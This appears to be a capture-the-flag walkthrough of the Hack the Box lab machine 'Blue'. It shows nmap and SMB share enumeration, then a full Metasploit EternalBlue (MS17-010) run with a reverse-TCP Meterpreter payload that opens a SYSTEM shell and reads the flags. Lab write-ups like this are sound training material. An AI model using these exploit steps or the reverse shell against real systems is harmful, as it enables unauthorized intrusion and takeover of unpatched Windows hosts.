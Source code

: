 ```yaml
---
layout: post
title:  "Hack the Box - Blue"
date:   2017-07-28 23:23:00
categories: [walkthrough, htb]
comments: false
---
```

![HTB-Blue](/img/htb/blue/blue.png)

An easy box by ch4p.  Great for getting to know metasploit, or practice if you want to find and modify the exploit from exploit-db.com.

{% highlight bash %}
meterpreter > sysinfo
Computer        : HARIS-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
{% endhighlight %}

<!--more-->
## Host Discovery

Starting this one off with a light nmap scan to see if there is anything interesting on the standard 1000 ports.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # nmap -sV 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-06 10:42 MST
Nmap scan report for 10.10.10.40
Host is up (0.072s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.60 seconds

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali #
{% endhighlight %}

Sure enough, SMB is open on the system, and based on the name of the box chances are this is an EternalBlue (MS17_010) exploitable box.

## Enumeration/Port Mapping

Lets see if you can login as a guest by attempting to list and then login to a share without specifying a user.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient -L //10.10.10.40
Enter WORKGROUP\root's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient  //10.10.10.40/Users
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 00:56:23 2017
  ..                                 DR        0  Fri Jul 21 00:56:23 2017
  Default                           DHR        0  Tue Jul 14 01:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 22:54:24 2009
  Public                             DR        0  Tue Apr 12 01:51:29 2011

		8362495 blocks of size 4096. 3842276 blocks available
smb: \>
{% endhighlight %}

Sure enough we can get into the Users share without any real credentials.  On to exploitation!

## Exploitation - MS17-010 EternalBLue

Now, this is the non OSCP friendly way to do it, but chances are this is the way most folks will go ahead and do it.  Using Metasploit and the `exploit/windows/smb/ms17_010_eternalblue)` built in we should be able to get a system shell.

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


 Payload options (windows/x64/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST     10.10.14.17      yes       The listen address (an interface may be specified)
    LPORT     443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >
{% endhighlight %}

Payload all set now we just run:

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.17:443
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Meterpreter session 1 opened (10.10.14.17:443 -> 10.10.10.40:49158) at 2020-02-06 10:21:13 -0700
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > sysinfo
Computer        : HARIS-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
{% endhighlight %}

## Loot!

{% highlight bash %}
meterpreter > shell
Process 2828 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd \users\administrator\desktop
cd \users\administrator\desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff54************************e717

C:\Users\haris>cd \Users\haris\desktop
cd \Users\haris\desktop

C:\Users\haris\Desktop>type user.txt
type user.txt
4c54***********************deea9
C:\Users\haris\Desktop>
{% endhighlight %}

That is all there is to it.
